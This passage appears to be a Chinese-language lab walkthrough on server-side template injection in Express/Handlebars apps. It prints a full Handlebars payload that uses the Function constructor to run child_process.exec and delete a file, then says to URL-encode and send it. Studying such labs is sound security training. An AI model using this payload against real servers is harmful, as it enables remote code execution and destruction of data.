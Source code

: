 ### 如果您使用带手柄的 ExpressJs 作为通过 hbs 视图引擎调用的模板引擎，对于服务器端渲染…

blog.shoebpatel.com](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/) 

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

基本上，我们可以使用这个有效负载来执行代码。我们需要首先对这个有效载荷进行 URL 编码，然后发送 URL。

![](img/c99108846d291d1abd2a42038f08489a.png)

瞧啊。我们解决了。

去下一个。

# 通过用户提供的对象进行信息公开的服务器端模板注入
